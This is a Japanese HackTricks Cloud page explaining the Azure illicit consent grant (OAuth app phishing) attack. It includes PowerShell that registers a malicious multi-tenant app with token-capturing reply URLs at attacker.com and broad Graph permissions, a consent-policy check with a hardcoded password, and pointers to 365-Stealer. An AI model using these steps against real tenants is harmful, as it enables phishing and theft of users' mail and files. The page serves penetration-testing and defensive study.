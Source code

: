 # Az - 不正な同意付与

<details>

<summary><strong>ハックトリックをサポートして特典を得る！</strong></summary>

* **HackTricksで会社を宣伝したい**場合や、**PEASSの最新バージョンにアクセスしたい**場合、または**HackTricksをPDFでダウンロード**したい場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をご覧ください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter**で私をフォローする 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)
* **ハッキングのトリックを共有するには、**[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。

</details>

## OAuth App フィッシング

**Azureアプリケーション**は、**ユーザーデータ**（基本情報だけでなく、ドキュメントへのアクセス、メールの送信など）へのアクセス許可を要求します。\
**許可された場合**、通常のユーザーは**「低影響」の権限**に対してのみ同意を与えることができます。**それ以外の場合は、管理者の同意が必要**です。\
`GA`、`ApplicationAdministrator`、`CloudApplication` `Administrator`、および`アプリケーションに権限を付与する権限`を含むカスタムロールは、テナント全体の同意を提供できます。

管理者の同意を必要としない権限のみが**低影響**として分類されます。これらは、基本的なサインインに必要な権限であり、openid、profile、email、User.Read、およびoffline\_accessです。**組織**が**すべてのアプリ**に対してユーザーの同意を許可している場合、従業員はアプリに対して**自分のプロフィールから上記を読み取る**ための同意を与えることができます。

<figure><img src="../../../.gitbook/assets/image (3) (2) (1).png" alt=""><figcaption></figcaption></figure>

したがって、攻撃者は**悪意のあるアプリ**を準備し、**フィッシング**を行うことで、ユーザーに**アプリを受け入れさせ、彼のデータを盗む**ことができます。

### ユーザーが同意できるかどうかを確認する

ユーザーがアプリに同意できるかどうかを確認します：

{% code overflow="wrap" %}
```powershell
PS AzureADPreview> (GetAzureADMSAuthorizationPolicy).PermissionGrantPolicyIdsAssignedToDefaultUserRole
```
{% endcode %}

* **ユーザーの同意を無効にする**：ユーザーはアプリケーションに権限を付与することができません。
* **検証済みのパブリッシャーまたは組織のアプリに対してのみユーザーが同意できますが、選択した権限のみ**：すべてのユーザーは、検証済みのパブリッシャーによって公開されたアプリおよびテナントに登録されたアプリにのみ同意できます。
* **ユーザーはすべてのアプリに同意できます**：管理者の同意を必要としない権限に対して、すべてのユーザーが同意できるようにします。
* **カスタムアプリの同意ポリシー**

## **不正な同意付与攻撃とは？**

不正な同意付与攻撃では、攻撃者は連絡先情報、メール、ドキュメントなどのデータへのアクセスを要求する**Azureに登録されたアプリケーションを作成**します。攻撃者はその後、エンドユーザーを騙してアプリケーションに同意を与えさせ、攻撃者が対象ユーザーがアクセス権を持つデータにアクセスできるようにします。アプリケーションに同意が与えられた後、組織アカウントは必要ありませんで、アプリケーションはユーザーアカウントレベルでデータにアクセスできます。

簡単に言えば、被害者が「承諾」という美しい青いボタンをクリックすると、Azure ADはトークンを第三者のサイトに送信し、攻撃者がそのトークンを使用して被害者の代わりにアクションを実行できるようにします。たとえば、すべてのファイルにアクセスしたり、メールを読んだり、メールを送信したりすることができます。

## **攻撃フロー**

<figure><img src="../../../.gitbook/assets/image (13) (1).png" alt=""><figcaption></figcaption></figure>

この攻撃を企業「ecorp」に対して実行するために、攻撃者は「safedomainlogin.com」という名前のドメインを登録し、「ecorp.safedomainlogin.com」というサブドメインを作成しました。そこには**認可コードをキャプチャするアプリケーションがホストされています**。その後、アクセストークンを要求します。

次に、Azure ADテナントでマルチテナントアプリケーションを登録し、「ecorp」という名前を付け、リダイレクトURLを「ecorp.safedomainlogin.com」に設定しました。これは、認可コードをキャプチャするアプリケーションをホストしています。

攻撃者はまた、新しいクライアントシークレットを作成し、アプリケーションに`Mail.Read`、`Notes.Read.All`、`Files.ReadWrite.All`、`User.ReadBasic.All`、`User.Read`などのいくつかのAPIの**権限**を追加しました。したがって、**ユーザーがアプリケーションに同意を与えると**、攻撃者はユーザーの代わりに**機密情報を抽出**できます。

最後に、攻撃者は悪意のあるアプリケーションのクライアントIDを含む**リンク**を作成し、そのリンクを**対象のユーザー**と共有して同意を得ます。

## 365-Stealer

[**365-Stealer**](https://github.com/AlteredSecurity/365-Stealer)を使用してこの攻撃を実行できます。

さらに、被害組織のユーザーに対して**アクセス権限がある場合**、ポリシーが彼が**アプリに同意することを許可するかどうか**を確認できます。
```powershell
Import-Module .\AzureADPreview\AzureADPreview.psd1
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("test@corp.onmicrosoft.com", $passwd)
Connect-AzureAD -Credential $creds
(Get-AzureADMSAuthorizationPolicy).PermissionGrantPolicyIdsAssignedToDefaultUserRole
# If "ManagePermissionGrantsForSelf.microsoft-user-default-legacy", he can
```
この攻撃を行うには、Azureテナント（App registrations内）で**新しいAppを作成する必要があります**。たとえば、次のアクセス許可を持つものを作成します。

<figure><img src="../../../.gitbook/assets/image (2) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

`User.ReadBasic.All`は`Microsoft Graph`の`Delegated permissions`内にあります（アプリケーションのアクセス許可は常に追加の承認が必要です）。

* `User.ReadBasic.All`は、付与された場合に組織内のすべてのユーザーの情報を**読み取ることができる権限**です。
* テナント全体の同意を提供できるのは、`GA`、`ApplicationAdministrator`、`CloudApplicationAdministrator`、および`アプリケーションにアクセス許可を付与する権限を含むカスタムロール`のみです。したがって、**管理者の同意が必要なAppを承認する**ためには、これらの役割を持つユーザーを**フィッシング**する必要があります。

また、次のコマンドラインからもAppを作成できます：

{% code overflow="wrap" %}
```bash
# Generate Application
New-AzureADApplication -DisplayName "MyApp"  -ReplyUrls @("https://attacker.com", "https://attacker.com/gettoken") -Oauth2AllowImplicitFlow $true -AvailableToOtherTenants $true

# Generate Secret
New-AzureADApplicationPasswordCredential -ObjectId f76ebd35-xxxx-xxxx-xxxx-xxxxxxxxxxxx -CustomKeyIdentifier "MyAppSecret" -StartDate (Get-Date) -EndDate (Get-Date).AddYears(3)

# Generate an application with the permissions
$objectid=New-AzureADApplication -DisplayName "AppName"  -ReplyUrls @("https://example.com/login/authorized") -Oauth2AllowImplicitFlow $true -AvailableToOtherTenants $true | select-object ObjectId
New-AzureADApplicationPasswordCredential -ObjectId $objectid.ObjectId -CustomKeyIdentifier "secret" -StartDate (Get-Date) -EndDate (Get-Date).AddYears(3)

$AppObjectID = $objectid.ObjectId # object id in AD
$app = Get-AzureADApplication -ObjectId $AppObjectID
$AADAccess = $app.RequiredResourceAccess | Where-Object {$_.ResourceAppId -eq "00000003-0000-0000-c000-000000000000"}  # "00000003-0000-0000-c000-000000000000" represents Graph API
if($AADAccess -eq $null) {
$AADAccess = New-Object Microsoft.Open.AzureAD.Model.RequiredResourceAccess
$AADAccess.ResourceAppId = "00000003-0000-0000-c000-000000000000"

$Access = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access.Type = "Scope"
$Access.Id = "14dad69e-099b-42c9-810b-d002981feec1"
$AADAccess.ResourceAccess = @()
$AADAccess.ResourceAccess.Add($Access)

$Access2 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access2.Type = "Scope"
$Access2.Id = "e1fe6dd8-ba31-4d61-89e7-88639da4683d"
$AADAccess.ResourceAccess.Add($Access2)

$Access3 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access3.Type = "Scope"
$Access3.Id = "df85f4d6-205c-4ac5-a5ea-6bf408dba283"
$AADAccess.ResourceAccess.Add($Access3)

$Access4 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access4.Type = "Scope"
$Access4.Id = "10465720-29dd-4523-a11a-6a75c743c9d9"
$AADAccess.ResourceAccess.Add($Access4)

$app.RequiredResourceAccess.Add($AADAccess)
} else {
$Access = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access.Type = "Scope"
$Access.Id = "14dad69e-099b-42c9-810b-d002981feec1"
$AADAccess.ResourceAccess = @()
$AADAccess.ResourceAccess.Add($Access)

$Access2 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access2.Type = "Scope"
$Access2.Id = "e1fe6dd8-ba31-4d61-89e7-88639da4683d"
$AADAccess.ResourceAccess.Add($Access2)

$Access3 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access3.Type = "Scope"
$Access3.Id = "df85f4d6-205c-4ac5-a5ea-6bf408dba283"
$AADAccess.ResourceAccess.Add($Access3)

$Access4 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access4.Type = "Scope"
$Access4.Id = "10465720-29dd-4523-a11a-6a75c743c9d9"
$AADAccess.ResourceAccess.Add($Access4)
}

Set-AzureADApplication -ObjectId $AppObjectID -RequiredResourceAccess $app.RequiredResourceAccess
Get-AzureADApplication -ObjectId $objectid.ObjectId | select-object appid
```
{% endcode %}

[https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer)をチェックして、それを設定する方法を学びましょう。

{% hint style="warning" %}
取得した**アクセストークン**は、**グラフエンドポイント**用のものであり、スコープは`User.Read`と`User.ReadBasic.All`です（要求された権限）。他の操作はできませんが、これらは組織内のすべてのユーザーに関する情報を**ダウンロードするのに十分です**。
{% endhint %}

## [O365-Attack-Toolkit](https://github.com/mdsecactivebreach/o365-attack-toolkit)

このツールを使用して、この攻撃を実行することもできます。

## ポストエクスプロイテーション

ユーザーにアクセスできたら、機密文書の盗難やバックドアが仕込まれた文書ファイルのアップロードなど、さまざまなことができます。

## 参考文献

* この投稿は[https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer)からコピーされました。

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* **HackTricksで会社を宣伝したい**場合や、**最新バージョンのPEASSを入手したい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式のPEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れましょう。
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)、私たちの独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを発見しましょう。
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter**で私をフォローしてください🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **ハッキングのトリックを共有するには、**[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。

</details>
